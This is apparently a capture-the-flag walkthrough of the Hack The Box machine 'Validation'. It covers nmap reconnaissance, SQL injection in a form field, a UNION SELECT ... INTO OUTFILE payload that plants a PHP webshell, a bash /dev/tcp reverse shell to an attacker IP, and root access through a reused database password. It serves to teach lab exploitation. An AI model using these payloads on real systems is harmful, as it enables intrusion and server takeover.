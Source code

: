 ```yaml
---
title: Validation
published: true
layout: post
---
```


<br />

---------------
Validation is an easy difficulty Linux machine that involves exploiting an SQL Injection vulnerability present in a website. By leveraging this vulnerability, we can upload a webshell and gain access as www-data. To escalate privileges to root, we discover credentials within a config file, allowing us to log in as root.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/frx7Ls9-j6U?si=1TkjVuEKPEZvmf2X" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.116 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn
```

![](/assets/Validation/1.png)
<br />
<br />
<br />

There are **4 open ports**:
+ **22/tcp**
+ **80/tcp**
+ **4566/tcp**
+ **8080/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.11.116 -p 22,80,4566,8080 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A
```

![](/assets/Validation/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.9p1**
+ **80/tcp Apache httpd 2.4.52**
+ **4566/tcp nginx**
+ **8080/tcp nginx**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.116 -p 22,80,4566,8080 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn
```

![](/assets/Validation/3.png)
<br />
<br />
<br />

The scan reports nothing interesting.

<br />

------

<br />
### Foothold

The foothold in this machine is """easy""", the quotes are there because **SQLi** is very difficult for me.

<br />

We are facing a website that allows us to register for what seems to be a competition:
![](/assets/Validation/4.png)
<br />
<br />
<br />

We can capture the request and see it in **BurpSuite**:
![](/assets/Validation/5.png)
<br />
<br />
<br />

As the country field is "protected" in the website, because it is a **list and not a text field**, we can attempt **SQLi** on it:

```HTTP
username=Tanades&country=Brazil'
```

![](/assets/Validation/6.png)
<br />
<br />
<br />

We get an **SQL error**, so we can start our SQLi enumeration, beginning by discovering how many fields are being selected using an ***ORDER BY*** clause:

```HTTP
username=Tanades&country=Brazil'+ORDER+BY+1+--+//
```

![](/assets/Validation/7.png)
<br />
<br />
<br />

We can now try to exfiltrate information using an ***UNION SELECT*** clause:
```HTTP
username=Tanades&country=Brazil'+UNION+SELECT+database()+--+//
```

![](/assets/Validation/8.png)
<br />
<br />
<br />

Even though this seems like the way to enumerate credentials and escalate privileges, this is not the case, we have to create a **webshell** using an ***INTO OUTFILE*** clause:
```HTTP
username=Tanades&country=Brazil'+UNION+SELECT+"<%3fphp+system($_GET['cmd'])%3b%3f>"+INTO+OUTFILE+"/var/www/html/webshell.php"+--+//
```

![](/assets/Validation/9.png)
<br />
<br />
<br />

Let's see if the command has been successful:
![](/assets/Validation/10.png)
<br />
<br />
<br />

Great let's now send us a **reverse shell**:
```
bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.10/4444+0>%261"
```

![](/assets/Validation/11.png)
<br />
<br />
<br />

We received the reverse shell, let's **print the flag** for the user htb:

![](/assets/Validation/12.png)
<br />
<br />
<br />


------

<br />
### Privilege Escalation

The privilege escalation for this machine is one of the easiest, we just have to take our time to **read configuration files**.

<br />

In the */var/www/html* directory, we can see a **config.php** file that we couldn't read before as it was being interpreted:

![](/assets/Validation/13.png)
<br />
<br />
<br />

As we can see, this file contains **credentials for the database** for an user called uhc, however this **password also works for the root user**:

```bash
su
script /dev/null -c bash
```

![](/assets/Validation/14.png)
<br />
<br />
<br />
